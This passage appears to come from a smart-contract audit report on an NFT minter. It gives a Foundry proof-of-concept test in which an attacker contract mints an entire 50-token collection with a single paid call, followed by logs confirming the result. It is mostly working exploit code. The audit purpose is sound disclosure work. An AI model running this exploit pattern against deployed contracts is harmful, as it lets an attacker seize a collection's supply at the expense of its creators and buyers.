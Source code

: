 
### Here is a coded PoC to demonstrate the issue:

```solidity
    function testMintAllTheCollection() public {
        bytes32[] memory merkleProof = setUpArrayBytes(1);
        merkleProof[0] = bytes32(0);

        address attacker = makeAddr("attacker");

        vm.prank(attacker);
        MintAllSupply mintAllSupply = new MintAllSupply(minterContract, nextGenCore);

        deal(address(mintAllSupply), 49e18);

        vm.warp(block.timestamp + 1 days);

        console.log("(Collection Circulation Supply Before)      = ", nextGenCore.viewCirSupply(1));
        console.log("(Balance of attacker contract Before)       = ", address(mintAllSupply).balance);
        console.log("(Col 1 Balance of attacker contract Before) = ", nextGenCore.balanceOf(address(mintAllSupply)));

        hoax(attacker, 1e18);
        minterContract.mint{ value: 1e18}({
            _collectionID: 1,
            _numberOfTokens: 1,
            _maxAllowance: 0,
            _tokenData: "",
            _mintTo: address(mintAllSupply),
            merkleProof: merkleProof,
            _delegator: address(0),
            _saltfun_o: 0
        });

        console.log("(Collection Circulation Supply After)       = ", nextGenCore.viewCirSupply(1));
        console.log("(Balance of attacker contract After)        = ", address(mintAllSupply).balance);
        console.log("(Col 1 Balance of attacker contract After)  = ", nextGenCore.balanceOf(address(mintAllSupply)));
    }
```

### Logs result:

```yaml
  (Collection Circulation Supply Before)      :  0
  (Balance of attacker contract Before)       :  49000000000000000000
  (Col 1 Balance of attacker contract Before) :  0
  (Collection Circulation Supply After)       :  50
  (Balance of attacker contract After)        :  0
  (Col 1 Balance of attacker contract After)  :  50
```
